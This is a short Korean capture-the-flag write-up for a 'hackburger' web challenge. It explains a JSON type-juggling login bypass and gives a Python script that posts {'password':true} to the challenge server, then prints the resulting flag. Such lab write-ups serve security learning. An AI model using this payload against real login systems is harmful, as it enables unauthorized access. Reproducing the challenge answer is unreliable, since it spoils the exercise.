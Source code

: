 # [hackburger] Enter password to get candy - Writeup

패스워드를 입력할 수 있는 웹페이지가 있다.

___

## Type Juggling

```
data={"password":"1234"}
```

JavaScript에서 Json으로 인코딩하여 패스워드를 전송한다는걸 알아냈다.

그래서 값을 true로 해서 전송하니까 Type Juggling이 발생해서 로그인이 성공했는지 flag를 준다.

``` python
import urllib.parse, urllib.request

def main():
	url = 'http://burger.laboratorium.ee:8003/'
	post_data = {
		'data':'{"password":true}'
	}
	headers = {
		'Content-Type':'application/x-www-form-urlencoded'
	}
	req = urllib.request.Request(url, urllib.parse.urlencode(post_data).encode(), headers)
	res = urllib.request.urlopen(req).read().decode()

	print(res)

if __name__ == '__main__':
	main()
```

___

## Answer

flag: `eae482e1c2d9147891174ecd38bb95a7ee2a9a70`
